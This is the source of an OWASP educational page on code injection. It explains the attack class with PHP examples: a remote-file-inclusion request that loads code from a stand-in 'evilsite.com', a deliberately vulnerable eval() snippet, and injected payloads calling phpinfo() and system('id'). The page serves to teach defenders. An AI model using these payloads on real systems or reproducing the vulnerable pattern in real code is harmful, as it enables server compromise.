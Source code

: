 ```yaml
---

layout: col-sidebar
title: Code Injection
author: Weilin Zhong, Rezos
contributors: OWASP, Thandermax, Csa, KristenS, Wichers, Neil Bergman, Camilo, Andrew Smith, kingthorin
permalink: /attacks/Code_Injection
tags: attack, Code Injection

---
```


{% include writers.html %}

## Description

Code Injection is the general term for attack types which consist of
injecting code that is then interpreted/executed by the application.
This type of attack exploits poor handling of untrusted data. These
types of attacks are usually made possible due to a lack of proper
input/output data validation, for example:

- allowed characters (standard regular expressions classes or custom)
- data format
- amount of expected data

Code Injection differs from [Command
Injection](Command_Injection) in that an attacker is only
limited by the functionality of the injected language itself. If an
attacker is able to inject PHP code into an application and have it
executed, they are only limited by what PHP is capable of. Command
injection consists of leveraging existing code to execute commands,
usually within the context of a shell.

## Risk Factors

- These types of vulnerabilities can range from very hard to find, to easy to find
- If found, are usually moderately hard to exploit, depending of scenario
- If successfully exploited, impact could cover loss of confidentiality, loss of integrity, loss of availability, and/or loss of accountability

## Examples

**Example 1**

If an application passes a parameter sent via a GET request to the PHP
`include()` function with no input validation, the attacker may try to
execute code other than what the developer had in mind.

The URL below passes a page name to the `include()` function.
`http://testsite.com/index.php?page=contact.php`

The file "evilcode.php" may contain, for example, the phpinfo() function
which is useful for gaining information about the configuration of the
environment in which the web service runs. An attacker can ask the
application to execute their PHP code using the following request:
`http://testsite.com/?page=http://evilsite.com/evilcode.php`

**Example 2**

When a developer uses the PHP `eval()` function and passes it untrusted
data that an attacker can modify, code injection could be possible.

The example below shows a dangerous way to use the `eval()` function:

```
$myvar = "varname";
$x = $_GET['arg'];
eval("$myvar = $x;");
```

As there is no input validation, the code above is vulnerable to a Code
Injection attack.

For example: `/index.php?arg=1; phpinfo()`

While exploiting bugs like these, an attacker may want to execute system
commands. In this case, a code injection bug can also be used for
command injection, for example: `/index.php?arg=1; system('id')`

## References

- [CWE-77: Command Injection](http://cwe.mitre.org/data/definitions/77.html)
- [CWE-78: OS Command Injection](http://cwe.mitre.org/data/definitions/78.html)
- [CWE-89: SQL Injection](http://cwe.mitre.org/data/definitions/77.html)

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
